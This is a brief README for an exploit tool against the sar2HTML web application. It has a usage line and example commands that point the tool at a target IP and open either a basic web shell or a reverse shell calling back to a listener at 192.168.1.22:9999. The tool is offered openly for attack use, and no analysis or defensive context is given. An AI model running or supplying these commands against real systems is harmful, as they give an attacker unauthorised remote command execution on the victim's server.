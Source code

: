 # sar2THML
Reverse Shell for sar2HTML (Basic web and reverse)

# Usage: ./sar2HTML -ip HOST IP -rip IP:PORT -pe folder

# Exmaples:
./sar2HTML -ip 192.168.1.81 -rip 192.168.1.22:9999 -pe sar2HTML (Reverse Shell)
./sar2HTML -ip 192.168.1.81 -pe sar2HTML (Baisc Web Shell)
